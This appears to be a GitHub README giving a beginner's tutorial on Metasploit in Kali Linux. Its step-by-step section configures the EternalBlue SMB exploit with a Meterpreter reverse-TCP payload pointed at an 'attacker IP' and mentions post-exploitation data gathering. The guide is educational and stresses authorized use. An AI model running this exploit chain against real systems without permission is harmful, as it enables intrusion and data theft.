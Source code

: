 # Metasploit-

<img src="download.png">

## Metasploit in Kali Linux: A Beginner's Guide


**Welcome, young Padawan!** Metasploit, pre-installed in Kali Linux, is a powerful **penetration testing framework** used by security professionals and enthusiasts alike. But for beginners, it can be daunting. Fear not, this guide will break it down into bite-sized pieces.

**What is Metasploit?**

Imagine a toolbox for digital detectives. Metasploit provides **exploits**, which are like lockpicks for vulnerabilities in software and systems. It also offers tools for **reconnaissance**, **scanning**, and **post-exploitation**, like picking the lock, exploring the house, and leaving a calling card.

**Why use Metasploit in Kali Linux?**

Kali Linux is a pre-configured distribution packed with security tools, and Metasploit is its crown jewel. It's **versatile**, working against various operating systems and applications. It's **easy to use**, with intuitive interfaces like `msfconsole` and web interfaces. And it's **open-source**, constantly evolving with new exploits and tools.

**Getting Started:**

1. **Open a terminal:** This is your command center.
2. **Start Metasploit:** Type `msfconsole` and hit Enter.
3. **Explore the commands:** Use `help` and `info` to learn about commands and modules.
4. **Search for exploits:** Use `search` with keywords like "windows" or "web".
5. **Learn the basics:** Practice using `show`, `use`, and `run` to explore and launch exploits.

**Important Tips:**

* **Always practice responsibly:** Only use Metasploit on authorized targets and for ethical purposes.
* **Start with safe environments:** Practice on virtual machines or dedicated testing environments.
* **Understand the risks:** Exploits can be complex and have unintended consequences.
* **Learn the theory:** Build a strong foundation in security concepts before diving into exploits.

**Resources:**

* **Official Metasploit documentation:** [https://docs.rapid7.com/metasploit/msf-overview](https://docs.rapid7.com/metasploit/msf-overview)
* **Kali Linux documentation:** [https://www.kali.org/docs/](https://www.kali.org/docs/)
* **Metasploit Beginner Tutorials:** [https://www.youtube.com/watch?v=tp-x0OHpmKc](https://www.youtube.com/watch?v=tp-x0OHpmKc)

**Remember:** Metasploit is a powerful tool. Use it responsibly, ethically, and with a thirst for knowledge. Soon, you'll be navigating the digital landscape like a seasoned security expert!

**Happy hacking (safely)!**

<h4>How To Use Metasploit In Kali Linux</h4>

Here's a step-by-step guide on how to use Metasploit in Kali Linux,

1. 📥 Install Kali Linux: First, make sure you have Kali Linux installed on your system. You can download it from the official website.

2. 🐞 Set Up Metasploit: Open the terminal and update the system by running the command:
   `sudo apt-get update`

   Then, install Metasploit by running:
   `sudo apt-get install metasploit-framework`

3. 📡 Launch Metasploit: Once installed, open the terminal and launch Metasploit by running:
   `msfconsole`

4. 🔎 Search for Exploits: To search for available exploits, use the command:
   `search <exploit>`
   For example, `search eternalblue`

5. ℹ️ Gathering Information: Use various commands such as `info` and `options` to get more information about a specific exploit.

6. ⚙️ Configure Exploit: To set the options for a specific exploit, use the command:
   `use <exploit>`
   For example, `use exploit/windows/smb/ms17_010_eternalblue`

7. 🛠️ Set Payload: Set the payload by using the command:
   `set payload <payload>`
   For example, `set payload windows/meterpreter/reverse_tcp`

8. 🎣 Set Exploit Options: Configure the exploit options using the `set` command. For example:
   `set RHOST <target IP>`
   `set LHOST <attacker IP>`

9. ▶️ Exploit: Once all the options are set, run the exploit using the `exploit` command.

10. 🕵️ Post-Exploitation: After successfully exploiting, you can perform various post-exploitation activities, such as gathering sensitive information or running additional commands on the target system.

Remember to use Metasploit responsibly and only on systems you have explicit permission to test. Happy hacking! 💻🔐🚫
